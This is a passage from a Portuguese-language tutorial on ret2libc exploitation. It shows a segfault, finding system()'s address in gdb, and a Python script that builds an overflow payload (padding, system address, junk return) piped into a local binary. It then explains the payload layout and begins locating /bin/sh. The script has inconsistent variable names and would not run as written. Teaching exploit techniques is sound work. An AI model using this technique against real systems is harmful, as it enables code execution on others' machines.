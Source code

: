     main()

*após a execução:*

    C:\Users\ecarlosn\Desktop\ret2libc                                                           
    > python example.py                                                                          
    input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Segmentation Fault 
*Ok, nada de muito diferente, porém, conseguimos uma falha de segmentação.*

## Starting with system()
*Para encontramos o endereço da função system, reiniciamos nossa aplicação, redefinimos o breakpoint, digitamos qualquer coisa no input, ex("AAAA") e quando atingirmos o break, utilizamos o comando:*
`(gdb) p system`
*Este comando nos retornará, não só informações básicas da função **system**, como seu endereço.*

![infosys](https://i.imgur.com/jhUSEUr.png)

*Sensacional, não? Bem, vamos modificar nosso script novamente:*

    #!/usr/bin/env python
    import os
    import struct
    
    def main():
        endereco_system = struct.pack("I", 0xb7ecffb0)
        padding = 80
        Meuload = "A" * padding + endereço_system + "LMAO"
        MeuPayload = open("payload.txt", "w")
        MeuPayload.write(payload)
        MeuPayload.close()
        os.system("cat payload.txt | NomeArquivoCComplilado")
    
    main()
*Fizemos duas modificações: Uma delas foi adicionar o endereço de system ao nosso script, e a segunda pode lhe parecer estranha, mas eu já explico.*

*Por padrão, nosso payload deve seguir uma forma de construção:*
**[QuantBytesPraEIP] | [EndereçoFuncaoSystem] | [4 Bytes Quaisquer] | [Endereço de /bin/sh]***. Isso ocorre por conta da [Função próloga](https://en.wikipedia.org/wiki/Function_prologue), basicamente uma preparação que informa qual a stack frame a função irá utilizar. O primeiro argumento para a função do sistema ocorre quatro bytes após a chamada inicial para a função, pois, não podemos dar um CALL em uma função, mas podemos simular algo parecido. Logo após sobrescrevermos o endereço de retorno com o endereço da função system, estamos "simulando" um **CALL** na mesma, então, a arquitetura "pede" um endereço de retorno para retornar aquela função. Para a exploração em questão, a utilização de um "JUNK" de 4 bytes já nos basta, pois teoricamente não precisaremos retornar para nada após a execução do shellcode. A princípio, não nos interessa adentrarmos no porquê de cada detalhe, apenas tomemos como verdade e sigamos em frente!*
## /bin/sh, where r u?
*Para encontramos este bendito endereço de bin/sh, existe mais de uma forma. em exemplos na web afora, pode-se encontrar coisas do tipo:*
*   `x/s *(environ++) `
*   *filtros através da propria shell*
*   ...
